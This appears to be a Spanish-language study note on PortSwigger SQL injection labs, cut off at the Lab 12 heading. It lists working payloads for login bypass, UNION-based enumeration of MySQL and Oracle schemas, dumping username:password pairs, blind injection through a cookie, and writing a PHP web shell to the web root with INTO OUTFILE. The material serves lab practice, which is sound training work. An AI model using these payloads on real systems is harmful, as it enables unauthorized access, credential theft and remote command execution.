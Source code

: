 # SQL Intection 'PortSwigger' MySQL ❮❯

Tags: #BurpSuite #SQLI #Explotacion #Enumeracion 

```bash 
❯ burpsuite &> /dev/null & disown                    # Iniciamos el BurpSuite y lo mandamos a segundo plano
```

- **union select "<? system($_REQUEST['cmd']) ?>" into "/var/www/html/outfile"** Podemos crear un archivo llamado Outfile que contenga un cmd que nos interpretara comandos. Despues del primer ? va php

### DATABASE - TABLES - COLUMS - DATA 
Asi se conforma una base de datos

#### Lab1 SQL injection vunerability in WHERE clause allowing retrieval of hidden ***'%s'***
Estamos haciendo que nos comente el esto de la query por ende nos debe de mostrar todo el contenido visible de la pagina.
	**’or 1=1-- -    o    'or 1=1#** 
- ***-- - o #*** -> Para comentar lo que hay en la derecha y no se interprete
- or 1=1 -> Devuelve un codigo de estado exitoso TRUE 

#### Lab 2 SQL injection vulnerability allowing login bypass ***'%s'***
De los dos campos que tenemos en un panel de autenticacion, estamos haciendo que nos comente el segundo campo y por ende no tome en cuenta la password.
	**admin'-- -** 
- ***-- -***  Para comentar lo que hay en la derecha y no se interprete

#### Lab3 SQL injection UNION attack, determining the number of columns returned by the query 
A veces el ordenar columnas hace que nos salga un error, con el cual nos podriamos dar una idea, cuando no sale es ahi el numero de columnas existentes.
	**'order by 10-- -** Haremos un ordenamiento de los datos, basandonos en la decima colmuna, de ahi se reduce hasta que no nos muestre el error
Una vez obtenido el numero de las columnas, utlizamos el UNION select para combinar datos
	**'union select 1,2,3-- -** 
* 1,2 -> El numero de columnas que hemos encontrado, en este caso son dos... Si fuera mas seria 1,2,3,4 etc... Si la pagina no te admite numeros, en ese caso poner NULL,NULL,NULL. 
Esto es para MySQL y Microsoft
	**'union select NULL,@@version -- -** Para saber la version de MySQL y Microsoft
	
#### Lab4 SQL injection union attack, finding a column containing text
Una vez obtenido el numero de las columnas, utlizamos el UNION select para combinar datos
	**'union select NULL,'snhsb',NULL-- -** Buscar que campo es inyectable para poder ingresar funciones o comandos.
Dependiendo del campo que sea injectable, podemos colocarle diferentes cosas para que nos reporte algo. Por ejemplo:
* version() -> Podemos usar esos campos para que nos muestre diferentes cosas, en este caso la version
* database() -> Si la segunda columna es inyectable, ahi podriamos hacer que nos muestre la base de datos que esta usando
* user() -> Que me muestre que usuario esta corriendo la base de datos actual 

#### Lab5,6 SQL injection UNION attack, retrieving data from other tables and retrieving multiple values in a single column
- Para listar las bases de datos existentes
	**'union select 1,2,schema_name from information_schema.schemata -- -** Pone el resultado en forma de lista
	**'union select 1,2,*group_concat*(schema_name) from information_schema.schemata -- -** Para saber cuantas bases de datos tenemos, 
pone resultado en una sola linea, este es mas conveniente para listar el usuario y su passwd
	**'union select 1,schema_name,3 from information_schema.schemata -- -** El schema_name siempre va en el campo que es inyectable.

- Para enumerar las tablas 
	**'union select 1,2,table_name from information_schema.tables -- -** Lista las tablas de todas las bases de datos existentes
	**'union select 1,2,table_name from information_schema.tables WHERE table_schema='*DBS*'-- -** Lista las tablas de una base de datos especifica

- Para enumerar las columnas 
	**'union select 1,2,column_name from information_schema.columns WHERE table_schema='*DBS*' and table_name='*TABLENAME*' -- -** Lista las columnas de una base de datos especifica, donde tambien tenemos una tabla especifica

- Para mostrar la data con concatenaciones
	**'union select 1,2,group_concat(*username*, ':' ,*password*) from *DB.TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos (**: = 0x3a** representacion en hexadecimal) Hacemos esto si la base de datos actual no es la que contiene los datos que queremos 
	**'union select 1,2,group_concat(*username*, ':' ,*password*) from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos
	**'union select 1,2,concat(*username*,':',*password*) from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos
	**'union select 1,2,*username*||':'||*password* from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos, esta es otra forma de concatenar, por la web no te deja con group concat
	**'union select 1,*username*,*password* from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en fila siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos, aqui estamos ocupando dos campos que son inyectables

#### Lab7, SQL injection attack, querying the database type and version on Oracle
La tabla DUAL es una tabla especial de una sola columna presente de manera predeterminada en todas las instalaciones de bases de datos de Oracle.
	**'union select NULL,NULL from dual -- -** Debemos de agregar esa tabla en Oracle para que no nos de error 
	**'union select NULL,banner from v$version -- -** Para saber la version de Oracle 

#### Lab10 SQL injection attack, listing the database contents on Oracle
La tabla DUAL es una tabla especial de una sola columna presente de manera predeterminada en todas las instalaciones de bases de datos de Oracle.
	**'union select NULL,NULL from dual -- -** Debemos de agregar esa tabla en Oracle para que no nos de error 
	**'union select NULL,owner from all_tables -- -** Primero listamos contra los propietarios
	**'union select NULL,table_name from all_tables WHERE owner='*OWNERNAME*' -- -** Miramos las tablas existentes de un propietario especifico
	**'union select NULL,column_name from all_tab_columns WHERE table_name='*TABLENAME*' -- -** Miramos las columnas existentes de un propietario especifico
	**'union select 1,2,*username*||':'||*password* from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos, esta es otra forma de concatenar, por la web no te deja con group concat

#### Lab11 Blind SQL injection with conditional responses
- En este caso el vulnerable es el TrackID, por lo que cuando algo es correcto nos sale en la web 'Welcome Back!'
Ademas de esto debemos de saber el nombre correcto de la DB, username, y asi nosotros por medio de un script de python3 podriamos adivinar la password.
	**Cookie: TrackingId=v54JPAcaS7lKSevV; session=O3YFg0GqU8Wjyv9qBo6F4JDUQGxuTdfg** Es la original
- Para que el script funcione debemos de saber la longitud de la password y eso se hace de esta manera:
	**Cookie: TrackingId=v54JPAcaS7lKSevV' and (select 'a' from *users* where *username*='administrator' and length(*password*)>=20)='a'-- -; session=O3YFg0GqU8Wjyv9qBo6F4JDUQGxuTdfg**
	* users -> DBs
	* username -> nombre de usuario valido 
	* password -> passwd que queremos encontrar
	* 20 es el tamano de la password y eso lo sabemos porque hasta ahi aun nos sigue saliendo el 'Welcome Back!'
Despues nos hacemos el script en python3 y obtenemos la password.


#### Lab12 Blind SQL injection with conditional errors
